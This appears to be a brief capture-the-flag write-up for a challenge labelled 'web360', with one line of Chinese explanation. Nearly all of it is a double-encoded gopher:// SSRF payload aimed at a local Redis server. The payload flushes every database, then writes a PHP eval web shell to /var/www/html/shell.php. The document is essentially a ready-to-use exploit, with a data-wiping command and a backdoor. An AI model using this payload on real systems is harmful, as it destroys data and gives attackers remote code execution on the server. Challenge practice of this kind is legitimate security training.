

# web360
gopherus生成payload,再二次编码

```
url=gopher%3A%2F%2F127.0.0.1%3A6379%2F_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252432%250D%250A%250A%250A%253C%253Fphp%2520eval%2528%2524_POST%255B%2527cmd%2527%255D%2529%253B%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A%2Fvar%2Fwww%2Fhtml%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A
```


